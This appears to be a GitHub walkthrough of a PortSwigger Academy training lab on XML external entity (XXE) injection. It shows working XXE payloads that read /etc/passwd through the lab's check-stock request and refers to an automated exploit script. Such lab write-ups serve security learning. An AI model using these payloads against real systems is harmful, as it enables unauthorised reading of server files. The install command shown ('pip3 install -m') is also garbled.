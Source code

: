 \+ Lab #1    : Exploiting XXE to retrieve files\
\+ Lab Level : Apprentice\
\+ Link      : https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

## About:
This lab has a ```Check stock``` feature that parses XML input and returns any unexpected values in the response.<br/>
To solve the lab, inject an XML external entity to retrieve the contents of the ```/etc/passwd``` file. <br/>

## End Goal:
Retrieve the content of ```/etc/passwd``` file.

## Detection:
* First of all, we need to find an XML data entry point where we can test for XXE vulnerability.
* According to the lab description, the target Web Application has a check stock feature that parses XML input.
  ![XXE](https://user-images.githubusercontent.com/101610095/221443861-16357268-24f6-40be-9eba-cf94b6c412a8.png)
* Let's visit the ```/product``` page and intercept the POST request after clicking on the ```check stock``` button:
  ![XXE2](https://user-images.githubusercontent.com/101610095/221443309-560773a8-e280-438b-b7e9-162d23f0d046.png)
* As you can see here, after clicking on the check stock button, a client-side script issues a POST request to the server, and then the server respond with the following response:<br/> 
  ![XXE3](https://user-images.githubusercontent.com/101610095/221443796-aa626e12-d1df-4bc4-80a2-b2d2d82e0e89.png)
* The client-side script will then process the server's response and update part of the user interface by displaying the number of products left.<br/>
  ![XXE1](https://user-images.githubusercontent.com/101610095/221443008-d18e6537-9e12-4868-9742-a4f126fd598b.png)

> 📝: **NOTE:** <br/>
> Notice that there are 2 data values within the submitted XML document, which means to test systematically for XXE vulnerabilities, we need to test each data node in the XML individually.<br/>
> ![XXE5](https://user-images.githubusercontent.com/101610095/221444607-7e192970-4499-4734-bcb9-1f638b97288f.png)

## Exploitation:
### Manual:
#### Crafting the payload:
* In order to exploit this XXE vulnerability and retrieve the content of ```/etc/passwd``` file, we need to add a suitable ```DOCTYPE``` element that defines an external entity to the XML.
* An External Entity reference is specified using the ```SYSTEM``` keyword and its definition is the ```URL``` from which the value of the entity should be loaded.
* Since, we want to retrieve a local file, we will use ```file:///etc/passwd``` as the URL for our external entity.
* The malicious external entity  should look to something like this:
```XML
<!DOCTYPE foo [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
```
* At this stage, all we need to do is to inject this external entity in between the ```XML Prolog``` and the root element ```<stockCheck>```
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  ...
</stockCheck>
```
#### Testing for XXE:
* Let's start with the ```productId``` child element, and replace the *productId* number with a reference to our malicious external entity ```&file;```  :
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>
    &file;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
* Let's send the request:<br/>
  ![request](https://user-images.githubusercontent.com/101610095/221447680-dbba6f8b-447b-48a2-9848-d2ed61c2db12.png)
* Server's Response:<br/>
  ![response](https://user-images.githubusercontent.com/101610095/221447686-dd8b0acd-e3ab-41e2-a80c-262515be4c40.png)
* As you can see, we were able to retrieve the content of /etc/passwd file, which means the ```productId``` data node is vulnerable to XXE injection.<br/>
<br/>

* Now, let's test if the ```storeId``` data node is also vulnerable to XXE injection: 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>
    1
  </productId>
  <storeId>
    &file;
  </storeId>
</stockCheck>
```
* Request: <br/>
![request](https://user-images.githubusercontent.com/101610095/221448126-053c31ab-2723-4dca-abac-98c3c1e7a91c.png)

* Response: <br/>
![response2](https://user-images.githubusercontent.com/101610095/221448138-8f0993f3-10c6-4c03-8111-c2cc00dfcf6c.png)
* It looks like the second data ```storeId``` node is not vulnerable to XXE injection. 

### Automated:
* Refer to https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/XXE%20Injection/Lab%231/Lab-1.py
* Requirements:
```bash
pip3 install -m requirements.txt
```
* Help Menu: 
```bash
usage: Lab-1.py [-h] -u URL -f FILE [-n] [-v]

Usage Example: python3 Lab-1.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Enter the Lab URL
  -f FILE, --file FILE  Enter the path to the file you want to retrieve
  -n, --no-proxy        Do not use proxy
  -v, --verbose         Increase the verbosity level                             
```
![Lab-11](https://user-images.githubusercontent.com/101610095/221608991-703bbc38-dd50-4cb0-910c-acaedce84d64.gif)
